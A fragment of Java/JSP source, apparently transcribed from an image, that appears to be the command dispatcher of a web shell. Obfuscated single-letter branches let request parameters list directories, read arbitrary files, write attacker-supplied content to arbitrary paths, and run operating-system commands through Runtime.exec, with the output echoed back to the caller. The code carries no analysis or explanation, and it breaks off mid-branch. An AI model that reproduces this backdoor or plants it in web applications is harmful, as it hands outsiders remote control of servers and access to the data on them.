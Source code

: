```
    StringBuffer sb = new StringBuffer("");
    try {
        sb.append("->" + "|");
        if (Z.equals("A")) {
            String s = new File(application.getRealPath(request
                    .getRequestURI())).getParent();
            sb.append(s + "\t");
            if (!s.substring(0, 1).equals("/")) {
                AA(sb);
            }
        } else if (Z.equals("B")) {
            BB(z1, sb);
        } else if (Z.equals("C")) {
            String l = "";
            BufferedReader br = new BufferedReader(
                    new InputStreamReader(new FileInputStream(new File(
                            z1))));
            while ((l = br.readLine()) != null) {
                sb.append(l + "\r\n");
            }
            br.close();
        } else if (Z.equals("D")) {
            BufferedWriter bw = new BufferedWriter(
                    new OutputStreamWriter(new FileOutputStream(
                            new File(z1))));
            bw.write(z2);
            bw.close();
            sb.append("1");
        } else if (Z.equals("E")) {
            EE(z1);
            sb.append("1");
        } else if (Z.equals("F")) {
            FF(z1, response);
        } else if (Z.equals("G")) {
            GG(z1, z2);
            sb.append("1");
        } else if (Z.equals("H")) {
            HH(z1, z2);
            sb.append("1");
        } else if (Z.equals("I")) {
            II(z1, z2);
            sb.append("1");
        } else if (Z.equals("J")) {
            JJ(z1);
            sb.append("1");
        } else if (Z.equals("K")) {
            KK(z1, z2);
            sb.append("1");
        } else if (Z.equals("L")) {
            LL(z1, z2);
            sb.append("1");
        } else if (Z.equals("M")) {
            String[] c = { z1.substring(2), z1.substring(0, 2), z2 };
            Process p = Runtime.getRuntime().exec(c);
            MM(p.getInputStream(), sb);
            MM(p.getErrorStream(), sb);
        } else if (Z.equals("N")) {
            NN(z1, sb);
        } else if (Z.equals("O")) {
            OO(z1, sb);
        } else if (Z.equals("P")) {
            PP(z1, sb);
        } else if (Z.equals("Q")) {
```